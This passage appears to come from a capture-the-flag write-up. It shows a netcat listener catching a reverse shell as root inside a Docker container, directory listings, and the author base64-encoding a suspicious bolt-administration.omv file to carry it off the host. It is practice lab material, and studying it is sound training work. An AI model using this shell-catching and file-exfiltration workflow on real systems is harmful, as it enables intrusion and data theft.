 Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.155.
Ncat: Connection from 10.10.11.155:53172.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar  7 23:18 .
drwxr-xr-x   1 root root 4096 Mar  7 23:18 ..
-rwxr-xr-x   1 root root    0 Aug 15  2021 .dockerenv
drwxr-xr-x   2 root root 4096 Jul 22  2021 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Jun 22 16:02 dev
drwxr-xr-x   1 root root 4096 Aug 15  2021 etc
drwxr-xr-x   2 root root 4096 Apr 12  2016 home
drwxr-xr-x   1 root root 4096 Aug 15  2021 lib
drwxr-xr-x   2 root root 4096 Jul 22  2021 lib64
drwxr-xr-x   2 root root 4096 Jul 22  2021 media
drwxr-xr-x   2 root root 4096 Jul 22  2021 mnt
drwxr-xr-x   2 root root 4096 Jul 22  2021 opt
dr-xr-xr-x 408 root root    0 Jun 22 16:02 proc
drwx------   1 root root 4096 Mar  7 23:19 root
drwxr-xr-x   1 root root 4096 Aug 15  2021 run
drwxr-xr-x   1 root root 4096 Aug 15  2021 sbin
drwxr-xr-x   2 root root 4096 Jul 22  2021 srv
dr-xr-xr-x  13 root root    0 Jun 22 16:02 sys
drwxrwxrwt   1 root root 4096 Jun 22 17:07 tmp
drwxr-xr-x   1 root root 4096 Jul 22  2021 usr
drwxr-xr-x   1 root root 4096 Jul 22  2021 var
root@b06821bbda78:/# 
```
No flag.txt in ```/root``` but a ```bolt-administration.omv``` file which feeled kinda suspicous.

### Interesting .omv file

I've even found my ```malicous.omv``` file frome earlier where i tried to generate and download a ```.omv``` file to ```manipulate``` it.

```
drwxrwxrwx 1 root root 4096 Jun 22 17:06 .
drwx------ 1 root root 4096 Mar  7 23:19 ..
-rw-r--r-- 1 root root 1251 Jun 22 17:06 malicous.omv
ls -la
ls -la
total 32
drwx------ 1 root root 4096 Mar  7 23:19 .
drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Jun 22 17:07 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root 4096 Jun 22 17:06 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
```

```nc``` was not availabe in the ```Docker Container``` so I simply ```base64 encoded``` the file and transfered it to my machine via ```copy and paste``` into ```base64 -d``` and compared the file hashes for integrity with ```md5sum```.

Encode:
```
cat bolt-administration.omv | base64 
UEsDBBQAAAAIAAu6DlMlbXE6RwAAAGoAAAAUAAAATUVUQS1JTkYvTUFOSUZFU1QuTUbzTczLTEst
LtENSy0qzszPs1Iw1DPgckksSdR1LErOyCxLRZHRM+LKSszNL8vEIgvS6FyUmliSmqLrVGmlAFGo
YATUBYRcAFBLAwQUAAAACAALug5TJW1xOkcAAABqAAAABAAAAG1ldGHzTczLTEstLtENSy0qzszP